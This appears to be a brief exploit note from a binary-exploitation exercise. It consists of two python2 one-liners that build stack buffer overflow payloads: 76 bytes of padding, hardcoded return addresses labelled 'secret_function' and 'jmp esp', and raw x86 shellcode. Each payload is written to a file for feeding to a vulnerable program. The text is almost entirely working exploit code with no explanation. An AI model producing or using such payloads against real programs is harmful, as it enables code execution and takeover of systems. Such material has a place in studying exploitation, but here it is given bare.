 padding + secret_function + jmp esp + shellcode
python2 -c "print('A' * 76 + '\x92\x91\x04\x08' + '\x9f\x91\x04\x08' + '\xda\xc9\xb8\x43\xef\x24\x0e\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0d\x31\x43\x19\x03\x43\x19\x83\xc3\x04\xa1\x1a\x4e\x05\x7d\x7c\xdd\x7f\x15\x53\x81\xf6\x02\xc3\x6a\x7a\xa4\x14\x1d\x53\x56\x7c\xb3\x22\x75\x2c\xa3\x3a\x79\xd1\x33\x26\x18\xa5\x13\x86\xf5\x23\x38\xb7\x6e\x82\xb4\x4f\x04\xda\x63\xe3\x6d\x3b\x46\x83')" > payload.bin


padding + secret_function + jmp esp + shellcode
python2 -c "print('A' * 76 + '\x92\x91\x04\x08' + '\xdb\xc3\xbb\x84\x67\xf9\xa1\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x12\x31\x5a\x17\x83\xc2\x04\x03\xde\x74\x1b\x54\xef\xa1\x2c\x74\x5c\x15\x80\x11\x60\x10\xc7\x56\x02\xef\x88\x04\x93\x5f\xb7\xe7\xa3\xe9\xb1\x0e\xcb\x96\x41\xf1\x0a\x01\x40\xf1\x1d\x8d\xcd\x10\xad\x4b\x9e\x83\x9e\x20\x1d\xad\xc1\x8a\xa2\xff\x69\x7b\x8c\x8c\x01\xeb\xfd\x5d\xb3\x82\x88\x41\x61\x06\x02\x64\x35\xa3\xd9\xe7')" > payload.shell